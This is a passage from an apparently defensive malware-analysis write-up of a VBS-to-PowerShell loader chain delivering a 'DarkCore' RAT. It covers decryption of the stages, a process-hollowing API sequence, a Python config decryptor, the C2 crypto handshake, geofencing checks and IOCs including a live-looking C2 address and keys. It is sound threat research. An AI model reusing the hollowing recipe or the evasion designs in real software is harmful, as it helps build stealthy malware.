
*Flag `2` → DES. Two 8-byte values are read straight from the stream, right after the flags.*


*Block-by-block DES-CBC decryption into a `MemoryStream`; flag `8` then enables raw Deflate.*

So every resource carries its own key:

```
offset 0-2   skipped
offset 3     flags (inverted: DES + Deflate)
offset 4-11  8 bytes -> used as the DES IV
offset 12-19 8 bytes -> used as the DES key
offset 20+   DES-CBC ciphertext, then raw Deflate
```

One trap cost me some time here: read in the order the code seems to suggest (first value = key, second = IV), the PKCS#7 padding never comes out valid. Swapped, it decrypts cleanly. With the right order, the first resource did **not** give me strings — it gave me another PE: `ResourceAssembly.dll`, 4608 bytes, the obfuscator's own runtime. That DLL has two more resources in the same format, each with its own key:

- `Nxs_2.Hosting-` → the **string table**
- `Nxs.Hosting-` → an **integer table**: 165 constants such as `0x8664` (AMD64), `0x4D`/`0x5A` (`M`/`Z`), `0x10B`/`0x20B` (PE32/PE32+ magic) and header offsets. These are the numbers the hollowing code needs to parse the PE it is about to inject, kept out of the IL so they don't give the code away.

Strings are read by offset, with a variable-length size prefix (1, 2 or 4 bytes, like .NET's own `#US` heap), as UTF-16:




*`M7` fills eleven fields with `Delegate59.smethod_0(Class1.smethod_0(offset))` for offsets `1`, `26`, `55` … `333`.*

The decrypted string table:



| Offset | String | Field |
|---|---|---|
| 1 | `LoadLibraryA` | F20 |
| 26 | `GetProcAddress` | F21 |
| 55 | `VirtualAllocEx` | F11 |
| 84 | `WriteProcessMemory` | F12 |
| 121 | `ReadProcessMemory` | F13 |
| 156 | `GetThreadContext` | F14 |
| 189 | `SetThreadContext` | F15 |
| 222 | `Wow64GetThreadContext` | F16 |
| 265 | `Wow64SetThreadContext` | F17 |
| 308 | `ResumeThread` | F18 |
| 333 | `NtQueryInformationProcess` | F19 |
| — | `kernel` + `32.dll` (split on purpose), `ntdll.dll`, `…\Framework\v4.0.30319\MSBuild.exe`, `…\Framework64\v4.0.30319\MSBuild.exe` | |

The offsets in `M7` are exactly the offsets of the eleven API names. `LoadLibraryA` and `GetProcAddress` are resolved first and then used to resolve all the others, so none of them appears in the import table. I confirmed the mapping a second way: the loader declares delegate types `T0`–`T10` for the resolved pointers, and their signatures match the real APIs one by one (`DWORD` showing up as `uint`, handles as `IntPtr`).

### Process hollowing

The only APIs declared statically are the harmless-looking ones:


*`CreateProcessW`, `CloseHandle`, `TerminateProcess`, `GetProcAddress`, `EnumSystemLocalesA`… Everything that would look suspicious is resolved at runtime from the encrypted strings.*

Put together, that's the textbook **process hollowing** sequence:

1. `CreateProcessW` with `CREATE_SUSPENDED` → start the host process frozen.
2. `NtQueryInformationProcess` → get the address of its PEB.
3. `ReadProcessMemory` → read `ImageBaseAddress` from the PEB.
4. `VirtualAllocEx` + `WriteProcessMemory` → write the payload's headers and sections into the host (parsed with the integer table).
5. `GetThreadContext` / `SetThreadContext` (or the `Wow64` variants for a 32-bit host) → point the main thread at the payload's entry point.
6. `ResumeThread` → the host now runs the RAT.

The *set* of APIs comes straight from the decrypted string table and `M7`. The *order* is deduced from the classic hollowing pattern rather than by stepping through every line of `M0` — but with exactly these eleven functions, there isn't really another way to use them. The loader's default host is `MSBuild.exe` (32- or 64-bit); the PowerShell stage overrides it with `RegSvcs.exe` through the second argument of `M0`. Both are signed Microsoft binaries that ship with .NET, so a process with that name in the logs doesn't stand out.

The result: the RAT runs inside a legitimate Microsoft process, and the RAT itself never touches the disk as a file.

## Stage 5 — The DarkCore RAT (v3.8.0)

```
$ sha256sum final_payload.bin
f6e29c832695b2c0266323efd0949c395690b3059555bbe617395051f5cd74e2

PE32+ executable (GUI) x86-64, 565 760 bytes, 9 sections
```

Finally native code, so I moved to Ghidra. The entry point calls two functions: the first mixes `GetSystemTimeAsFileTime`, the thread and process IDs and `QueryPerformanceCounter` into a random value — that's just MSVC's `__security_init_cookie` (the stack canary), compiler boilerplate. The second one is where the malware starts. Rather than reading from there line by line, I went to strings and imports first. A few things stood out:

- **Custom sections**: `.data2` (768 bytes of high-entropy data), `.pvmut` (16 bytes, `EF BE AD DE DE C0 AD DE`), `.fptable` (empty).
- **Exports**: `DcCloakProcess`, `DcHjAct`, `DcHjSet`, `DcInjEntry`, `DcMedAct`, `DcModTh`.
- **Imports**: Winsock and WinHTTP, `bcrypt` (only `BCryptDecrypt`, no `BCryptEncrypt` — a hint that outgoing traffic uses its own crypto), `CryptUnprotectData`, `AdjustTokenPrivileges`, `CreateProcess`, `GetKeyboardLayoutList`, `GetUserGeoID`.
- **Strings**: a signature `DARKCORE01`, a list of time zone names, `HVNC_SetTorMode`, `HVNC_SetWssMode`, `RD_SetCaptureMode`, `::__DCPS_META__::`, `inject boot cdn=%d tor=%d port=%u gate=0x%08lX`, `HS OK sending HELLO`, `wss pub sent`, `/raw/%s`, `pastebin.com`, `time.windows.com`, and a very telling debug line: `FLAGS ad=%d vm=%d sb=%d etw=%d amsi=%d uh=%d dump=%d masq=%d`.

No IP address or domain anywhere in the strings. The config had to be in `.data2`.

### Finding the config cipher

The hex dump of `.data2` had a visible pattern: the same runs of bytes repeating, e.g. `df4c 4096 2b2c 0c28 7cdb` at offset `0x14` and again at `0xF4`. That's what you get when a repeating keystream is XORed over data that is mostly zeros (the padding of fixed-size string fields): where the plaintext is zero, the key shows through. Comparing the section against itself at every shift, the best match was at **224 bytes** (64% identical bytes, versus ~3% at any other shift).

That gave me a hypothesis. To confirm it I needed the code. First, the readers: looking for references into `.data2`, I found the fields being used **as if they were already plain text**:


*`word ptr [DAT_14008f08a]` (the port, offset +0x8a) and the string at +0x0a (the host) go straight into `wsprintfA("ConnectLoop host=%.48s port=%u cdn=%d tor=%d")`. So the config is decrypted in place before use.*

Then the writer. My first search — instructions writing to `.data2` with RIP-relative addressing — found nothing useful, because the decrypt loop addresses the section as `ImageBase + 0x8f00a` instead. Searching for code that takes the address of the first encrypted field (+0x0a) led me to a small per-field routine with a key at `0x1400843e0`, and right after it in the binary was the full decryptor:


*`FUN_1400355cc`: for 0x2f6 bytes starting at `.data2+0x0a`, XOR with `key[i & 0x1f]` rotated left by `i % 7` bits. The `0x24924925` multiplication is just the compiler's way of computing `i / 7`.*

```python
key = data[0x825e0:0x82600]                     # 32 bytes at VA 0x1400843e0
rol = lambda b, r: ((b << r) | (b >> (8 - r))) & 0xFF
for i in range(0x2f6):
    cfg[0x0a + i] ^= rol(key[i & 31], i % 7)
```

A 32-byte key combined with a rotation modulo 7 repeats every lcm(32, 7) = **224** bytes — exactly the period I measured. The two clues confirm each other.

An init routine (`0x14003562c`) checks a marker byte (`0xE5` at +0x288) to know whether the config is still encrypted, and the per-field routine at `0x14003553c` is used later to re-encrypt and decrypt single fields, so host and keys don't sit in memory in clear for longer than needed.

Two other functions that touch `.data2` turned out to be red herrings: one hashes config fields with FNV-1a plus `"DCINST1"` to make an instance name, the other looks for a `.cfg`/`.data2` section with the magic `DARKCORE01` in **other** files on disk (to recognise already-built stubs).

### The config

| Offset | Field | Value |
|---|---|---|
| +0x0a | C2 host | **`162.55.4.179`** (AS24940 Hetzner, DE) |
| +0x8a | C2 port | **`4869`** |
| +0x8c | Mutex / bot ID | `Mtx_uJibdjOaFW` |
| +0xcc | Install file name | `Runtime.exe` |
| +0x10f | Pre-shared key (32 B) | `b7eaf099eeb98f075b2376acc4e3c5c9d5dc25e70e7dc869c01bc1697ec1f49c` |
| +0x13b / +0x2fd | CDN / Tor | `0` / `0` — plain TCP |
| +0x16e | Geofencing enabled | `0` |
| +0x1e6 | Probably reconnect delay | `5000` (ms) |
| +0x242 | Masquerade name | `StartMenuExperienceHost` |
| +0x285 | Persistence task | `RuntimeTask` under `\Microsoft\Windows` |

The build version, `3.8.0`, is a plain string used right next to the config fields in the connection code.

On VirusTotal the C2 address belongs to AS24940 (Hetzner Online GmbH, Germany) and is flagged as malicious by 5 of 92 vendors. When I checked, TCP port 4869 didn't answer at all (connection timeout), so the server was most likely already down or filtered.

### The C2 protocol

I followed the pre-shared key from the config to see who uses it, and ended up in the session function at `0x140012190`:


*32 random bytes from an API resolved by hash, then an X25519 scalar multiplication with the base point `09 00 … 00`. The 32-byte public key is sent, the server's 32-byte public key is received, and a second X25519 call gives the shared secret.*

The session keys are derived by mixing everything together with BLAKE2s:


*The input is `counter || shared || pre-shared key || client_pub || server_pub` (0x81 bytes). Four calls produce a 32-byte TX key, a 32-byte RX key, a 12-byte TX nonce and a 12-byte RX nonce. I recognised BLAKE2s from its init: the SHA-256 IV with `0x6a09e667` XORed with `0x01010000 | outlen`.*

Mixing in the pre-shared key from the config is a nice touch: a server that doesn't know it derives different keys, so the bot effectively authenticates its C2. And because the client key is ephemeral, captured traffic can't be decrypted later, even with the config.

After the handshake, every message is built as `[type: u8][length: u32 LE][payload]` and sealed with **ChaCha20-Poly1305** (the `expand 32-byte k` constants are in `0x14002ed7c`, the Poly1305 limb masks `0x3ffffff` in `0x1400310f4`). The nonce is the base nonce XORed with a per-message counter, TLS 1.3 style, and a 16-byte tag is appended.

There's a second crypto path for **plugins**: modules sent by the C2 are PE files whose sections are encrypted with AES-256-GCM (through `bcrypt`), with the key derived as `HMAC-SHA256(pre-shared key, "DarkCoreModText_v1")`. That explains the `BCryptDecrypt`-only import: AES is only used to *receive* modules.

### Who it won't infect

The imports `GetUserGeoID` and `GetGeoInfoA` led to a single function at `0x14003a934`:


*GeoIDs `0xcb` (Russia), `0x1d` (Belarus), `0x89` (Kazakhstan), then the ISO2 code compared against `RU`, `BY`, `KZ` and `UZ`. Then the same again through `GetUserDefaultGeoName`, resolved at runtime.*

It doesn't stop there. The same four countries are checked through the user and system locale names, the user and system language IDs, the time zone (a table of 24 names: `Russian Standard Time`, `Belarus Standard Time`, `Kaliningrad Standard Time`, `Ekaterinburg Standard Time`, `Vladivostok Standard Time`, `Central Asia`, `Qyzylorda`…), and finally the keyboard layouts combined with the UI language (primary language IDs `0x19` Russian, `0x23` Belarusian, `0x3F` Kazakh, `0x43` Uzbek, packed into the bitmask `0x44000000401`).

If any of these match, the main function returns and the bot quits silently: no C2 contact, no persistence. This is the classic CIS exclusion seen in a lot of Russian-speaking crimeware.

Two details worth noting:

- The fourth GeoID is `0xF9` (249). Every other check targets Uzbekistan, whose GeoID I believe is 247 (`0xF7`); 249 should be Venezuela. Most likely an author's mistake — I couldn't verify the table on a Windows machine.
- In **this** sample the whole check is switched off: the caller only acts on the result if config byte +0x16e is non-zero, and here it's 0. The builder has a checkbox for it, and whoever built this one left it unchecked.

### What the RAT can do

Beyond the config, protocol and geofencing that I traced in code, exports, imports and strings describe the rest:

- **Remote shell** through an embedded PowerShell runner (`::dcps::`, `::dcscript::`, `::__DCPS_META__::` / `::__DCPS_END__::` framing).
- **HVNC** — a hidden desktop the operator can use without the victim seeing it, typically to log into the victim's browser and bank sessions from their own machine — plus a regular **remote desktop** (`RD_SetCaptureMode`). Both have Tor and WebSocket modes; debug logs go to `dc_hrdp_debug`.
- **Keylogging and activity monitoring** (`GetForegroundWindow`, `GetWindowTextW`, `GetLastInputInfo`).
- **Credential theft** via DPAPI (`CryptUnprotectData`, used for browser-saved passwords and cookies).
- **Injection** into `explorer.exe`, `notepad.exe` and others, including reflective shellcode; `AdjustTokenPrivileges` suggests it enables privileges like `SeDebugPrivilege` to open other processes.
- **Persistence** via a scheduled task, `Run`/`RunOnce` keys or the Startup folder.
- **Anti-analysis**, summarised by its own debug line `FLAGS ad=%d vm=%d sb=%d etw=%d amsi=%d uh=%d dump=%d masq=%d`: anti-debug, anti-VM, anti-sandbox, ETW patching, AMSI bypass, anti-dump and process masquerading. Add NTP time checks against `time.windows.com` / `pool.ntp.org` and the geofencing above.
- **Fallback config retrieval**: `pastebin.com` and a `/raw/%s` path point to a Pastebin dead drop for a new C2 address.
- **Downloadable plugins**, so what's in the binary is only the base feature set.

Most of this list comes from strings and imports, not from traced code, so treat it as "what the binary is built to do" rather than verified behaviour.

## Architecture Overview

```
2d89184a...vbs (680 KB, payload hidden in 'vf comments)
 └─ Stage 1: base64 + 29-byte rolling XOR
     ├─ string table (1021 B)
     └─ stage 2 VBS → %TEMP%\<rand>.log, run with wscript //e:vbscript
         ├─ reads 'vf comments of the ORIGINAL file
         ├─ base93 → custom KDF → MAC check → 12-round Feistel (CBC)
         ├─ WMI checks, random sleeps
         ├─ persistence: %LOCALAPPDATA%\Photo Studio\PhotoStudio.vbs + task "PhotoStudioVBS"
         └─ Stage 3 PowerShell (hidden, bypass)
             ├─ blob 1: base52 → custom cipher (CTR) → GZip → Nxs.Hosting.dll
             ├─ blob 2: base52 → custom cipher (CTR) → GZip → DarkCore RAT
             ├─ AppDomain.Load(byte[]) found by reflection
             └─ M0(payload, "RegSvcs.exe")
                 └─ Stage 4 Nxs.Hosting.dll (Crypto Obfuscator)
                     ├─ resource → DES/Deflate → ResourceAssembly.dll
                     │    ├─ Nxs_2.Hosting- → string table (11 APIs, MSBuild.exe)
                     │    └─ Nxs.Hosting-   → integer table (PE constants)
                     ├─ APIs resolved via LoadLibraryA + GetProcAddress
                     └─ process hollowing (default MSBuild.exe, here RegSvcs.exe)
                     └─ Stage 5 DarkCore RAT inside RegSvcs.exe
                         ├─ config: .data2, XOR rol(key[i&31], i%7)
                         ├─ geofencing RU/BY/KZ/UZ (disabled in this build)
                         └─ C2 162.55.4.179:4869
                             X25519 → BLAKE2s(+PSK) → ChaCha20-Poly1305
```

## IOCs

| Type | Value |
|---|---|
| SHA256 (VBS) | `2d89184a566d2cae6d3e7c78dad0f9e1a44c5e64a44d19bacfc9cfc0366e7d0a` |
| SHA256 (loader) | `df672dfe944292879f6405716d2219d828d8287b0f1dd3639b490316654d3e00` |
| SHA256 (RAT) | `f6e29c832695b2c0266323efd0949c395690b3059555bbe617395051f5cd74e2` |
| C2 | `162.55.4.179:4869` (TCP) — AS24940 Hetzner Online GmbH, DE; flagged by 5/92 vendors on VirusTotal |
| Mutex | `Mtx_uJibdjOaFW`, `Local\DCSI%s`, `Local\DCSS%s`, `Local\DCWDFLAG` |
| Scheduled tasks | `PhotoStudioVBS`, `MicrosoftEdgeUpdateTaskMachine<8 hex>`, `RuntimeTask` |
| Files | `%LOCALAPPDATA%\Photo Studio\PhotoStudio.vbs`, `%TEMP%\<rand>.log`, `%TEMP%\<rand>\<rand>.ps1`, `Runtime.exe` |
| Host process | `RegSvcs.exe` (default `MSBuild.exe`) |
| Strings | `DARKCORE01`, `DarkCoreModText_v1`, `DCINST1`, `Nxs.Hosting`, `FLAGS ad=%d vm=%d sb=%d etw=%d amsi=%d…`, `HS OK sending HELLO` |
| RAT working files | `.wctg`, `.wctu`, `.wctt_ok`, `.wctt_paths`, `wcti.dat`, `wctk.dat`, `dc_hrdp_debug` |
| Stage 2 password | `u+K29?N&z%6f8_dNAuz-_#Yj` |
| RAT pre-shared key | `b7eaf099eeb98f075b2376acc4e3c5c9d5dc25e70e7dc869c01bc1697ec1f49c` |

## MITRE ATT&CK Mapping

| Technique | ID | Where |
|---|---|---|
| Visual Basic | T1059.005 | Stages 0–2 |
| PowerShell | T1059.001 | Stage 3 |
| Obfuscated Files or Information | T1027 | Every stage |
| Deobfuscate/Decode Files or Information | T1140 | base64/base93/base52 + custom ciphers |
| Scheduled Task | T1053.005 | `PhotoStudioVBS`, `MicrosoftEdgeUpdateTaskMachine…`, `RuntimeTask` |
| Masquerading | T1036 | "Microsoft Corporation" task author, `StartMenuExperienceHost` |
| Process Hollowing | T1055.012 | Stage 4 → `RegSvcs.exe` |
| Reflective Code Loading | T1620 | `AppDomain.Load(byte[])` |
| Dynamic API Resolution | T1027.007 | Loader (`LoadLibraryA`/`GetProcAddress`), RAT (hashed API names) |
| Impair Defenses | T1562.001 | ETW patching, AMSI bypass (strings) |
| Debugger Evasion | T1622 | Anti-debug flag (strings) |
| Dead Drop Resolver | T1102.001 | Pastebin `/raw/%s` (strings) |
| Remote Services: VNC | T1021.005 | HVNC and remote desktop |
| Virtualization/Sandbox Evasion | T1497 | WMI checks, sleeps, NTP time check |
| System Language Discovery | T1614.001 | Geofencing |
| Encrypted Channel: Asymmetric Cryptography | T1573.002 | X25519 + ChaCha20-Poly1305 |
| Non-Standard Port | T1571 | TCP 4869 |
| Ingress Tool Transfer | T1105 | AES-GCM-encrypted plugins |
| Keylogging | T1056.001 | Strings / imports |
| Credentials from Web Browsers | T1555.003 | DPAPI (inferred from imports) |
| Hidden Window / Hidden Desktop | T1564.003 | HVNC |

## Conclusion

The striking thing about this chain is the contrast between the layers. The first four are noisy and home-made: junk code, a fake regex engine, base64, base93 and base52, two ciphers the author wrote themselves, XOR-encoded scriptblocks. All of them carry their own keys, so with patience every one of them falls to "read the code, rewrite it in Python". Their job is not to be secure but to be tedious and to stay off signatures.

